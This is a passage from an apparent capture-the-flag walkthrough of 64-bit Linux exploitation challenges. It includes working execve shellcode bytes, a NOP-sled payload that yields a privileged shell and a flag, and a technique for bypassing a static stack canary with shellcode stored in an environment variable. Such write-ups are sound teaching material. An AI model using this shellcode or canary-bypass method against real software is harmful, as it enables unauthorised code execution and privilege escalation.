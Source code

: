 ```
Breakpoint 3, 0x000000000040071c in main ()
```

With that in mind, I created a file "in.txt" which had 40 bytes of NOPs followed by execve() shellcode:

```
n00b@64bitprimer:/tmp/l6$ xxd -g1 in.txt
0000000: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
0000010: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
0000020: 90 90 90 90 90 90 90 90 6a 68 48 b8 2f 62 69 6e  ........jhH./bin
0000030: 2f 2f 2f 73 50 6a 3b 58 48 89 e7 31 f6 99 0f 05  ///sPj;XH..1....
```

I played around with the arguments for a bit until I found one that worked and gave me a shell:

```
n00b@64bitprimer:/tmp/l6$ /opt/challenges/level6/chall6 `cat in.txt` aaaa aaaa aaaa
Bet ya can't pwn me!
#n00b
$ id
uid=1017(n00b) gid=1017(n00b) euid=1006(level6) groups=1006(level6),1017(n00b)
$ cat /opt/challenges/level6/flag-level6
flag{0ff_by_0n3_hmmmmm_sh*t_n33d_t0_f1x_th4t_0ne}
```

## Level 9

This binary utilizes its own custom canary to ensure that the saved return pointer isn't overwritten. However, the canary's value is static and can be easily seen in radare2:

```
│           0x00400658      48b8efbeadde.  movabs rax, 0xdeadbeefdeadbeef
│           0x00400662      483145f8       xor qword [rbp - local_8h], rax
│           0x00400666      48837df800     cmp qword [rbp - local_8h], 0
│       ┌─< 0x0040066b      7405           je 0x400672
│       │   0x0040066d      e884ffffff     call sym.deadCanary
│       │   ; JMP XREF from 0x0040066b (sym.foo)
│       └─> 0x00400672      bff1074000     mov edi, str._loser         ; "#loser" @ 0x4007f1
```

I set a breakpoint at 0x00400666, where the value of the canary is checked, and sent a cyclic pattern of 0x40 bytes to the binary. Using the value at rbp-0x8, I determined that the canary was overwritten at offset 40. I also checked the value of the saved return pointer, and determined that it was overwritten at offset 56. It was an easy matter to create a payload to overwrite the canary with 0xdeadbeefdeadbeef and return to wherever I wanted. 

Since ASLR and NX were disabled, I opted to store my shellcode in an environment variable and return to it. I used getenvaddr.c to get its address:

```
n00b@64bitprimer:~/level9$ export EGG=`python -c 'print "jhH\xb8/bin///sPj;XH\x89\xe71\xf6\x99\x0f\x05"'`
n00b@64bitprimer:~/level9$ /tmp/l9/getenvaddr EGG ./chall9
EGG will be at 0x7fffffffeea6
```
